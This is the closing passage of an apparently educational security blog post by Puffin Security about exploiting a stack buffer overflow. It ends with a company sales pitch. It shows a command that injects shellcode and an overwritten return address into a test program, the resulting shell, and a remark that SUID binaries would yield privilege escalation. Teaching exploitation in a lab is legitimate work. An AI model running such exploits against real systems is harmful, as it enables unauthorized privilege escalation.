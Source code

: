 Anyway

$ /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "x10xd2xffxff"'\`
1�Ph//shh/bin��PS���
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ���
sh-4.4$ whoami
arget
sh-4.4$

A good question is what use is getting a program that already do what you control is not intended to do. I really do not have much, just for practice to bring it to an environment where it does make sense, as a binary with the SUID bit, thus privilege elevation would be obtained. Many methods employ elevation of privilege vulnerabilities in binary as sudo or passwd.

It’s time to go saying goodbye, the next time we see the exploitation with the occasional protection. Certainly something much more interesting.
    
At Puffin Security, At Puffin Security, we use the ELITE SECURITY TESTING CONSULTING methodology so you can rest assured that your organization will have the highest level of cloud security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://hub.puffinsecurity.com/quote)
